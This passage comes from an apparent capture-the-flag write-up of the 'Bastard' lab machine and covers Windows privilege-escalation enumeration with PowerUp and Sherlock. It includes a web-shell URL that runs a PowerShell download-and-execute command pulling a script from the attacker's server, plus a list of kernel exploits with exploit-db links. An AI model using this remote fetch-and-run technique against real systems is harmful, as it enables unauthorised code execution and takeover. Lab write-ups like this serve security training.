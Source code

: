 After a couple of min we can see the results from the powerup.ps1.

<figure>
  <img src="{{site.baseurl}}/img/ResultPowerUpBastard.png">
	<figcaption>
    <a href="{{site.baseurl}}/img/ResultPowerUpBastard.png" title="Result of PowerUp.ps1">Result of PowerUp.ps1</a>
  </figcaption>
</figure> 

Looking at the results we can see access denied which tells us that we don’t have admin rights.

## How to use Sherlock  

[Sherlock](https://github.com/rasta-mouse/Sherlock), PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities.  
Let’s try finding a vulnerability using sherlock.ps1  

Just like before we need to edit the end of the file this time with Find-AllVulns.  
We can copy and execute sherlock the same way that we did powerup.  

We downloaded our Sherlock.ps1 by accessing the following URL:  

{% highlight bash %}
http://10.10.10.9/Console.php?cmd=echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.17:8000/Sherlock.ps1') | PowerShell -Noprofile -
{% endhighlight %}  

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard]─[root@Arthorias]─[130]─[4182]
╰─[:)] # python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.9 - - [16/Apr/2019 04:27:13] "GET /Sherlock.ps1 HTTP/1.1" 200 -
{% endhighlight %}  

The result is as follows:  

{% highlight zsh %}
Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems

Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Appears Vulnerable

Title      : NTUserMessageCall Win32k Kernel Pool Overflow
MSBulletin : MS13-053
CVEID      : 2013-1300
Link       : https://www.exploit-db.com/exploits/33213/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenuEx Win32k NULL Page
MSBulletin : MS13-081
CVEID      : 2013-3881
Link       : https://www.exploit-db.com/exploits/31576/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenu Win32k Null Pointer Dereference
MSBulletin : MS14-058
CVEID      : 2014-4113
Link       : https://www.exploit-db.com/exploits/35101/
VulnStatus : Not Vulnerable

Title      : ClientCopyImage Win32k